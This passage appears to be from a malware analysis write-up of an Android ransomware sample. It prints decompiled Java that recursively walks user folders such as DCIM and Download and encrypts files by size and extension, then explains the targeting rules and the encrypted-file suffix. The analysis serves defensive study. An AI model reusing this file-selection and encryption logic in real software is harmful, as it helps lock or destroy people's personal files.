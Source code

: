 >				
>				bb++;
>				executorService.execute(new Runnable(){
>					@Override public void run(){
>						sss.jj(sss.this, key, action);
>						hh++;
>						if (bb == hh && bool){
>							SharedPreferences.Editor editor = context.getSharedPreferences("XH", 0).edit();
>							editor.putInt("sss", 1);
>							editor.commit();
>							MainActivity.instance.finish();
>							Intent intent = context.getPackageManager().getLaunchIntentForPackage(context.getPackageName());
>							intent.addFlags(Intent.FLAG_ACTIVITY_CLEAR_TOP);
>							context.startActivity(intent);
>						}
>					}
>				});
>			}
>			else if (localFile.isDirectory() && !localFile.toString().contains("/.") &&
>				!localFile.toString().toLowerCase().contains("android") &&
>				!localFile.toString().toLowerCase().contains("com.") &&
>				!localFile.toString().toLowerCase().contains("miad") &&
>					(jd(localFile.toString()) < 3 ||
>					localFile.toString().toLowerCase().contains("baidunetdisk") ||
>					localFile.toString().toLowerCase().contains("download") ||
>					localFile.toString().toLowerCase().contains("dcim"))){
>				deleteDirWihtFile(localFile, key, action, context);
>			}
>		}
>	}
>}
> ```

At the first time, the value of `action` is 1. We can see that the malware doesn't try to encrypt all files, for example:
* at least 0x2800 bytes
* at most 0x3200000 bytes
* containing a dot (i.e. with an extension)
* not the files with a specific suffix ( `MainActivity.hz`)
* not all directories: accept dcim, downloads, baidunetdisk, but reject system or third party's folders

If the object is a file, the routine `jj` is called with the `key` and the `action` taken as parameters (in order to encrypt or decrypt), and if it's a directory,
the routine `deleteDirWihtFile` is recursively called.

### Encryption suffix

In the previous snippet, the variable `MainActivity.hz` was used. This string is built in `MainActivity.onCreate` thanks to the routine `sss.l`:

![sss_l](/assets/res/malware/slocker/sss_l.png)
